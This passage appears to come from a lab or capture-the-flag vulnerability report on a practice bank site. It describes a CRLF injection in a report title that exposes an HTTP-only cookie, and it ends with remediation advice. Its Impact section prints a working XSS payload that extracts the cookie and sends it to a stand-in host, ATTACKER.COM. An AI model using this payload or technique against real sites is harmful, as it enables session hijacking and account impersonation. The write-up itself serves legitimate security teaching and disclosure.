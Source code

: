 Submitting a report and examining the server response on accessing the report view page, it can be noted above that my report title "Title" can be found in the HTTP response header when viewing the report, under the x-meta header. HTTP response header splitting can be used to "push" the HTTP-only cookie found in the server response header into the HTML body. With the same report content, intercepting sending a report and simply adding two url-encoded carriage return characters (\r\n) `%0D%0A%0D%0A` to the end of the report's title using Burp Suite, it can be seen that some extra HTML text can be found at the top of the page, containing the cookie (below). 

![](images/report5.png)

### Impact

The CRLF injection vulnerability causes cookies sent from the server to not be set properly, effectively rendering the HTTP-only cookie setting useless. When visiting a compromised site (such as through chaining this vulnerability with the XSS vulnerability in report.quoccabank.com), this vulnerability allows HTTP-only cookies to be picked up using JavaScript by using regex to search for them in the HTML body, which can then be forwarded to an attacker. An attacker may then be able to impersonate them and access reports they submitted, since report sessionIDs are stored in cookies. An example payload can be achieved through appending two carriage return characters to the report title, and using the following report content:

```html
<script></script>
<svg/onload=fetch('ATTACKER.COM/?q='+document.documentElement.outerText.match(/flag=(.*?);/)[1])/>
```

### Remediation

The CRLF injection vulnerability can also be remediated by sanitising report titles (stripping new line characters from `title` before being sent as an HTTP header) or properly encoded in the HTTP response header output. However, if its inclusion in the x-meta HTTP header is unnecessary, then it would be better to simply remove it from the header instead.
